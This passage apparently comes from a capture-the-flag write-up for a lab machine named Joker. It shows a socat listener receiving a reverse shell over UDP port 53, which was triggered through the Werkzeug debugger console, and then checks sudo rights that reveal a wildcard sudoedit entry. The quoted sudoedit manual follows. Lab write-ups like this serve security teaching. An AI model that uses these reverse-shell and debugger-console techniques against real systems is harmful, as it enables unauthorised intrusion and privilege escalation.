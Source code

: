 ![image-20200803163643525](https://0xdfimages.gitlab.io/img/image-20200803163643525.png)

At `socat`:

    
    
    root@kali# socat file:`tty`,raw,echo=0 udp-listen:53
    127.0.0.1 - - [03/Aug/2020 23:55:55] "GET /console?__debugger__=yes&cmd=os.dup2(s.fileno()%2C2)&frm=0&s=p9c0pgvzQFZkepakugdO HTTP/1.1" 200 -
                                                                                                                                                werkzeug@joker:~$ id
    uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)
    werkzeug@joker:~$
    

## Priv: werkzeug –> alekos

### Enumeration

Before I run enumeration scripts, I always check `sudo`, and there’s an entry:

    
    
    werkzeug@joker:/home/alekos$ sudo -l
    Matching Defaults entries for werkzeug on joker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        sudoedit_follow, !sudoedit_checkdir
    
    User werkzeug may run the following commands on joker:
        (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
    

`sudoedit` is a shortcut for running `sudo` with the `-e` flag:

> The **-e** (_edit_) option indicates that, instead of running a command, the
> user wishes to edit one or more files. In lieu of a command, the string
> “sudoedit” is used when consulting the security policy. If the user is
> authorized by the policy, the following steps are taken:
>
>   1. Temporary copies are made of the files to be edited with the owner set
> to the invoking user.
>
>   2. The editor specified by the policy is run to edit the temporary files.
> The _sudoers_ policy uses the SUDO_EDITOR, VISUAL and EDITOR environment
> variables (in that order). If none of SUDO_EDITOR, VISUAL or EDITOR are set,
> the first program listed in the _editor_
> **[sudoers](https://linux.die.net/man/5/sudoers)**(5) option is used.
>
>   3. If they have been modified, the temporary files are copied back to
> their original location and the temporary versions are removed.
>
>

>
> If the specified file does not exist, it will be created. Note that unlike
> most commands run by _sudo_ , the editor is run with the invoking user’s
> environment unmodified. If, for some reason, **sudo** is unable to update a
> file with its edited version, the user will receive a warning and the edited
> copy will remain in a temporary file.
